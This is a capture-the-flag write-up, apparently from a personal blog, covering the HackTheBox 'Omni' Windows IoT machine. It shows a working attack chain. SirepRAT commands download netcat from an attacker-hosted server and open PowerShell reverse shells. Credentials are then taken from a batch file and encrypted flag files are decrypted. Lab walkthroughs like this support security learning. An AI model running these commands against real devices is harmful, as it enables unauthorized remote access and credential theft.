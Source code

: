 ## Omni [HackTheBox]

> Mayank Srivastava | 5 jan 2021 1:48 PM

|       Machine Introduction      |
| :------------- | :------------- |
| Name           | Omni           |
| Os Type        | Other          |
| Diffculty      | Easy           |
| Points         | 30             |
| Ip address     | 10.10.10.204   |

As usual Basic enumeration

## Nmap Scanning

```
# Nmap 7.91 scan initiated Tue Jan  5 13:36:10 2021 as: nmap -Pn -sC -sV -oN nmap/initial 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.39s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  5 13:37:04 2021 -- 1 IP address (1 host up) scanned in 53.77 seconds

```
After gathering more information about the box i got at the conclusion that the box is a IOT based and to exploit it we can use SafeBreach-Lab's ```SirepRAT```.
SirepRAT has a functionality which lets us run Arbitrary Program. That means we could run cmd.exe and call in ``` powershell ``` and download a file via the ```Invoke-WebRequest``` cmdlet.

Use the Following command
```

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.50:8000/nc64.exe" --v


```

Now Execute Netcat on the attacker machine to get reverse connection

On attacker machine : ``` nc -nlvp 9999 ```

Run the Following command to get reverse connection from the victm Machine

```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.50 9999 -e powershell.exe" --v
```

Now we have a poweshell reverse connection on our machine now lets execute the following command which will give us interesting credentials.

## Exploitation

```

$ cd “c:\ProgramFiles\WindowsPowershell\Modules\PackageManagement”

$ ls -force

```

As You can see there are two credentials in r.bat file so using this credentials we can login to the web application of the machine.

goto Processes > Run Command

Here We Could run commands. Lets try to get a reverse shell.

Start a another netcat listener on your machine again on different port, and then run this command.

```
C:\Windows\System32\spool\drivers\color\nc64.exe <Your_Ip address> 9999 -e powershell.exe
```

Now we will get reverse connection now lets check the username using following commands

```
$env:Username
```

We are logged in as ```app``` user it means we can read the user.txt file but content looks encrypted we need to decrypt it.

For decrypt the flag we need to execute some commands.

```
$credential = Import-CliXml -Path U:\Users\app\user.txt
$ $credential.GetNetworkCredential().Password
```
After Running this command user flag will apper on the konsole


## Post Exploitation

Remember we found two username in r.bat file?
Let's use the second one, The administrator.

Start another netcat listener

GoTo Processes > Run Command

Then again Run this command

```
C:\Windows\System32\spool\drivers\color\nc64.exe <Your_Ip_address> 5555 -e powershell.exe"
```

Now we have a reverse poweshell

same process as ```user.txt``` we can also decrypt ```root.txt```.

```
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt
$ $credential.GetNetworkCredential().Password
```

Yeahhhhhhhhhhhhh!!!!!!! We have root flag.
